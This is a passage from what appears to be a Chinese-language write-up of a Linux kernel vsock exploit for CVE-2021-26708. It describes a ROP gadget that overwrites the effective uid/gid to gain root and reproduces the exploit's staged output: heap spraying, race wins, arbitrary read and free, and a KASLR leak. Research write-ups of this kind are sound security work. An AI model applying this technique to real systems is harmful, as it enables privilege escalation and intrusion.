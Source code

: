 <div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
由於在vmlinuz-5.10.11-200.fc33.x86_64中找不到一個能滿足我需求的gadget，所以我自己進行了研究構造。

</div>
<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
callback函數指針存儲一個ROP gadget 地址，RDI存儲callback函數的第一個參數，也就是ubuf_info本身的地址，RDI + 8指向ubuf_info.desc。 gadget 將ubuf_info.desc移動到RDX。現在RDX包含有效用戶ID和組ID的地址減一個字節。這個字節很重要：當gadget從 RSI向 RDX指向的內存中寫入消息1時，有效的 uid和 gid將被零覆蓋。重複同樣的過程，直到權限升級到root。整個過程輸出流如下：

</div>
    [a13x@localhost ~]$ ./vsock_pwn

    =================================================
    ==== CVE-2021-26708 PoC exploit by a13xp0p0v ====
    =================================================

    [+] begin as: uid=1000, euid=1000
    [+] we have 2 CPUs for racing
    [+] getting ready...
    [+] remove old files for ftok()
    [+] spray_data at 0x7f0d9111d000
    [+] userfaultfd #1 is configured: start 0x7f0d91121000, len 0x1000
    [+] fault_handler for uffd 38 is ready

    [+] stage I: collect good msg_msg locations
    [+] go racing, show wins:
        save msg_msg ffff9125c25a4d00 in msq 11 in slot 0
        save msg_msg ffff9125c25a4640 in msq 12 in slot 1
        save msg_msg ffff9125c25a4780 in msq 22 in slot 2
        save msg_msg ffff9125c3668a40 in msq 78 in slot 3

    [+] stage II: arbitrary free msg_msg using corrupted msg_msg
        kaddr for arb free: ffff9125c25a4d00
        kaddr for arb read: ffff9125c2035300
    [+] adapt the msg_msg spraying payload:
        msg_ptr 0x7f0d91120fd8
        m_type 1337 at 0x7f0d91120fe8
        m_ts 6096 at 0x7f0d91120ff0
        msgseg next 0xffff9125c2035300 at 0x7f0d91120ff8
    [+] go racing, show wins:

    [+] stage III: arbitrary read vsock via good overwritten msg_msg (msq 11)
    [+] msgrcv returned 6096 bytes
    [+] Found sk_memcg ffff9125c42f9000 (offset 4712 in the leaked kmem)
    [+] Found owner cred ffff9125c3fd6e40 (offset 4888 in the leaked kmem)
    [+] Found sock_def_write_space ffffffffab9851b0 (offset 4736 in the leaked kmem)
    [+] Calculated kaslr offset: 2a000000

    [+] stage IV: search sprayed skb near sk_memcg...
    [+] checking possible skb location: ffff9125c42fa000
    [+] stage IV part I: repeat arbitrary free msg_msg using corrupted msg_msg
        kaddr for arb free: ffff9125c25a4640
        kaddr for arb read: ffff9125c42fa030
    [+] adapt the msg_msg spraying payload:
        msg_ptr 0x7f0d91120fd8
        m_type 1337 at 0x7f0d91120fe8
        m_ts 6096 at 0x7f0d91120ff0
        msgseg next 0xffff9125c42fa030 at 0x7f0d91120ff8
    [+] go racing, show wins: 0 0 20 15 42 11
    [+] stage IV part II: arbitrary read skb via good overwritten msg_msg (msq 12)
    [+] msgrcv returned 6096 bytes
    [+] found a real skb
